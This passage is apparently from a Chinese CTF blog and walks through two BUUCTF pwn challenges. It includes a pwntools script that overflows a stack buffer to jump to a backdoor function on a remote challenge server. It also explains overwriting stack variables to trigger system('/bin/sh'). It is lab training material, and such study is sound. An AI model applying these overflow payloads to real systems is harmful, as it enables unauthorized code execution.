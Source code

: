 ![](https://paper.tanyaodan.com/BUUCTF/jarvisoj_tell_me_something/1.png)

用`IDA Pro 64bit`打开附件`jarvisoj_tell_me_something`，按`F5`反汇编源码并查看主函数，可以看到有个`int`型变量`v4`，`v4`的可用栈大小为`0x88`，`read()`函数读取输入到`v4`变量时限制的字节数为`0x100`，显然存在栈溢出漏洞。

![](https://paper.tanyaodan.com/BUUCTF/jarvisoj_tell_me_something/2.png)

在`Function window`中存在后门函数`good_game()`，这个函数读取了服务器中的`flag.txt`文件并进行输出。

![](https://paper.tanyaodan.com/BUUCTF/jarvisoj_tell_me_something/3.png)

构造`payload`时只要我们用`0x88`个字节覆盖掉`v4`变量，造成栈溢出漏洞，再将函数栈帧的返回地址覆盖成后门函数`good_game()`的地址就能拿到`flag`啦。编写`Python`代码即可得到`flag{5325d99b-666c-48e3-bd0c-be4fdd6619d4}`。

```python
from pwn import *

context(arch='amd64', os='linux', log_level='debug')
io = remote('node4.buuoj.cn', 29608)
e = ELF('./jarvisoj_tell_me_something')
good_game = e.symbols['good_game']
payload = b'a'*0x88 + p64(good_game)
io.sendlineafter(b'Input your message:\n', payload)
io.interactive()
```

![](https://paper.tanyaodan.com/BUUCTF/jarvisoj_tell_me_something/4.png)

------

### [护网杯_2018_gettingstart](https://buuoj.cn/challenges#%E6%8A%A4%E7%BD%91%E6%9D%AF_2018_gettingstart)

先`file ./2018_gettingstart`查看文件类型再`checksec --file=2018_gettingstart`检查了一下文件保护情况。

![](https://paper.tanyaodan.com/BUUCTF/2018_gettingstart/1.png)

用`IDA Pro 64bit`打开附件`2018_gettingstart`，按`F5`反汇编源码并查看主函数，可以看到有个`char`型数组`buf`，`buf`的可用栈大小为`0x30`，`read()`函数读取输入到`buf`变量时限制的字节数为`0x28`，并不能构成栈溢出。

注意到当`v5 == 0x7FFFFFFFFFFFFFFFLL && v6 == 0.1`这个条件成立时就会发生系统调用`system('/bin/sh')`。

![](https://paper.tanyaodan.com/BUUCTF/2018_gettingstart/2.png)

分别双击`v5`和`v6`可以看到其在栈中的位置，构造`payload`时只需要将`v5`和`v6`重新赋值即可让主函数中的`if`条件成立。

![](https://paper.tanyaodan.com/BUUCTF/2018_gettingstart/3.png)

`v5`的赋值直接就是`0x7FFFFFFFFFFFFFFF`，那么`v6 == 0.1`该怎么样用`16`进制数表示呢？可以在这个网站https://www.binaryconvert.com/result_double.html查看`0.1`用`IEEE754`双精度浮点数中的二进制格式。

![](https://paper.tanyaodan.com/BUUCTF/2018_gettingstart/4.png)

当然也能在汇编源码中看到`ucomisd xmm0, cs:qword_C10`，双击`qword_C10`就能知道`0.1`在内存中的数值`0x3FB999999999999A`。
